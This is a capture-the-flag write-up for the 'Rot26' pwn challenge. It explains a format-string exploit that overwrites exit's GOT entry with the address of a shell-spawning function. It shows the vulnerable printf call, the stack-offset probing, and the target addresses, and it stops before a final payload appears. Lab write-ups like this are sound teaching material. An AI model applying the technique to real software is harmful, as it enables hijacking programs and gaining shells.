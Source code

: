 ## Rot26
**Category:** pwn  
**Points:** 50

## TLDR
in ```main```:
```
...
  printf(sanitized);
  exit(EXIT_FAILURE);
...
```
Standard format string challenge. Overwrite the lower 2 bytes of ```exit```'s GOT with the lower 2 bytes of ```winners_room``` to spawn a shell and get the flag.

## Writeup
Analyzing the source code, we see a function ```winners_room``` that will give us a shell. Our goal is to redirect code execution here.
Looking in main, we see a vulnerable ```printf``` call, followed by ```exit```:
```
...
  printf(sanitized);
  exit(EXIT_FAILURE);
...
```
So, our attack plan is now clear: use the vulnerable printf to overwrite ```exit```'s Global Offset Table with ```winners_room```'s address, so that when ```exit``` is supposed to be called, ```winners_room``` is called instead.  
Fiddling around with stack offsets, we see that out input begins at the 7th element of the stack (i.e. we control the 7th element of the stack).
```
%x %x %x %x %x %x %x %x %x %x %x 
ffcf693c 1000 8048791 0 0 0 25207825 78252078 20782520 25207825 78252078
...
AAAA%7$x
AAAA41414141
```
Using gdb, we can see that ```exit```'s GOT is ```0x804a020```, and the address of ```winners_room``` is ```0x8048737```.
Lucky for us, the top two bytes are the same, so we only have to overwrite the bottom two bytes (via the ```hn``` option of printf).


